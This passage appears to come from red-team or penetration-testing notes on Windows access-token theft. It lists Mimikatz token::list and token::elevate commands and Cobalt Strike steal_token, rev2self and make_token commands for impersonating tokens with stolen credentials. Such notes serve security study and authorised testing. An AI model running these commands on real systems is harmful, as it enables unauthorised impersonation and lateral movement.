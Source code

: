If you steal a Process Token or an Impersonation Token with Impersonation or Delegation Level, remote authentication might work! (if the corresponding logon session has credentials in it)

\subsubsection{With Mimikatz}
Mimikatz can interact with process and thread tokens. The token:: module enables to interact with authentication tokens, including grabbing and impersonating existing tokens.
\begin{lstlisting}
  #list all tokens of the system
  token::list 

  #impersonate a token
  token::elevate /id:<tokenId>
\end{lstlisting}

\subsubsection{With Cobalt Strike}
Cobalt Strike can only steal process tokens:
\begin{lstlisting}
  #command will impersonate the token of the given process ID, granted you have rights to impersonate
  steal_token <PID>

  #will revert back to your normal token security context
  rev2self
\end{lstlisting}
Cobalt Strike can also create new logon sessions and point token to that:
\begin{lstlisting}
  #Creates a new logon session using stolen credentials
  make_token <DOMAIN\user> <password>
\end{lstlisting}